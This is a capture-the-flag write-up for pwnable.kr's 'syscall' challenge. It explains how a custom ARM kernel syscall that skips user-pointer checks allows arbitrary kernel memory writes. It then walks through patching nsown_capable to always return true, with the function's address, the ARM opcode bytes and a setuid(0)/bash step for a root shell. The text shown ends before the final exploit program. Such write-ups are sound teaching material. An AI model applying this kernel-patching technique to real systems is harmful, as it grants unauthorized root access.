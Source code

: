 # Syscall

Writeup for syscall challenge in pwnable.kr (200 points).

## Background

Syscall challenge is all about a syscall that someone added to the kernel that
we need to exploit. 

## Exploring the environment
When we log in with ssh to `syscall@pwnable.kr` in port 2222 
we are dropped into a VM,

`uname -a` will provide us more info about it:
```
/ $ uname -a
Linux (none) 3.11.4 #13 SMP Fri Jul 11 00:48:31 PDT 2014 armv7l GNU/Linux
```
- Architecture is `armv7l`, which is a 32 bit processor.
- Our kernel version is 3.11.4

When I logged in to this machine is was wondering how will I be able
to deliver my payload, and what flag should I read.

by running `find / -name flag` I've found the file `/root/flag`.

In order to deliver our binary payload we will encode it with base64 encoding,
and use `payload | base64 --decode > executable` to decode it.


## Exploring the syscall code

The given syscall is named `sys_upper` and its descriptor is 223.
What it does is very simple:
- Take 2 arguments: `char* in` and `char* out`.
- Puts transforms `in` to uppercase and stores it in `out`.

This is how it's implemented

```C
asmlinkage long sys_upper(char *in, char* out){
	int len = strlen(in);
	int i;
	for(i=0; i<len; i++){
		if(in[i]>=0x61 && in[i]<=0x7a){
			out[i] = in[i] - 0x20;
		}
		else{
			out[i] = in[i];
		}
	}
	return 0;
}
```

Complete source code is in syscall.c

### Vulnerability

The Vulnerability here is that the syscall does not use the conventional 
`copy_from_user` and `copy_to_user` functions when dealing with pointers 
from user mode.

These function ensure that the user has read/write permissions on the 
given pointers.

Since those funtions are not used, we are able to:
- **Read Kernel Memory**
- **Write Kernel Memory**


## Exploiting the vulnerability

We now have HUGE power. We can write and read from everywhere we want
in the operating system.

I assume there are many ways to pwn this machine, but I'll choose 
the one that seem the simplest to implement.

First thing I did was looking into the syscall table of arm architecture in kernel version 3.11:
https://github.com/torvalds/linux/blob/v3.11/arch/arm/kernel/calls.S


### Overriding the setuid syscall

setuid syscall lets the user set it's user identity from within the process.
This means a non-previleged user can change it's user id to 0 (== root), but'
of course, it is not possible for all processes.

This applies only to processes that has the capabilities to set uid.
For more information about capabilities, explore the `man capabilities` page.

In order to achieve the CAP_SETUID capability, the file on the filesystem needs
to have the suid bit turned on. 

BUT, what if we can patch the `sys_setuid` syscall to always allow the usage of 
setuid even if suid bit is off.


### Diving into the syscall implementation

sys_setuid syscall implementation for kernel 3.11:
https://github.com/torvalds/linux/blob/v3.11/kernel/sys.c (line 519)

The part we target inside the syscall is the if statement that checks if 
we have the CAP_SETUID capability.

Here it is: 

```C
SYSCALL_DEFINE1(setuid, uid_t, uid)
{
    // -- snip --
	if (nsown_capable(CAP_SETUID)) {
		new->suid = new->uid = kuid;
		if (!uid_eq(kuid, old->uid)) {
			retval = set_user(new);
			if (retval < 0)
				goto error;
		}
	} else if (!uid_eq(kuid, old->uid) && !uid_eq(kuid, new->suid)) {
		goto error;
	}

    // -- snip --
}
```

`nsown_capable` seems to check if the current process has the given capability.
Of course we can Confirm that by looking at the implementation of this function:
https://github.com/torvalds/linux/blob/v3.11/kernel/capability.c (line 436)

```C
/**
 * nsown_capable - Check superior capability to one's own user_ns
 * @cap: The capability in question
 *
 * Return true if the current task has the given superior capability
 * targeted at its own user namespace.
 */
bool nsown_capable(int cap)
{
	return ns_capable(current_user_ns(), cap);
}
```


What we can do is patch this function to always return **true**.
This will grant all user-mode processes all the capabilities :).

Once we have this method patched we can just run:
```C
setuid(0);
execv("/bin/bash", {"/bin/bash", NULL});
```

and get a shell as root.

## Crafting the payload

### Findind `nsown_capable` address

First we need to discover the address of `nsown_capable`.
For that we'll use the `/boot/System.map` file which maps kernel
symbols to addresses in memory.

```
/boot $ less System.map | grep nsown_capable
c00270f4 T nsown_capable
```

**Address is:** `0xc00270f4`

What we need to patch is nsown_capable:
https://github.com/torvalds/linux/blob/v3.11/kernel/capability.c (line 442)


### Patching the payload without learning ARM

In order to not waste my time on learning ARM, I decided to write a
C code that contains a function that always return `true` with the same signature as `nsown_capable`,

Function implementation is in `return_true.c`:

```C
bool is_capable(uid_t uid) {
    return true;
}
```

Here is how to cross-compile C Code to ARM:
https://askubuntu.com/questions/250696/how-to-cross-compile-for-arm


After compiling the return_true.c code, Let's find the disassembled
content of the `is_capable` function. I'll first find its address
by using `readelf` command:

```bash
$ readelf -a return_true | grep is_capable
  2762: 00010530    36 FUNC    GLOBAL DEFAULT    4 is_capable
```

Address is `0x00010530`. Now I'll disassemble the binary by running:
```bash
arm-linux-gnueabi-objdump --disassemble return_true | less
```

Searching for this address will give:


```
00010530 <is_capable>:
   10530:       e52db004        push    {fp}            ; (str fp, [sp, #-4]!)
   10534:       e28db000        add     fp, sp, #0
   10538:       e24dd00c        sub     sp, sp, #12
   1053c:       e50b0008        str     r0, [fp, #-8]
   10540:       e3a03001        mov     r3, #1
   10544:       e1a00003        mov     r0, r3
   10548:       e28bd000        add     sp, fp, #0
   1054c:       e49db004        pop     {fp}            ; (ldr fp, [sp], #4)
   10550:       e12fff1e        bx      lr
```

This is the disassembled ARM code behind the is_capable function.
Here it is translated to opcodes only:
```
e52db004e28db000e24dd00ce50b0008e3a03001e1a00003e28bd000e49db004e12fff1e
```


In order to patch the `nsown_capable` function we need to write this byte sequence
to the function's location.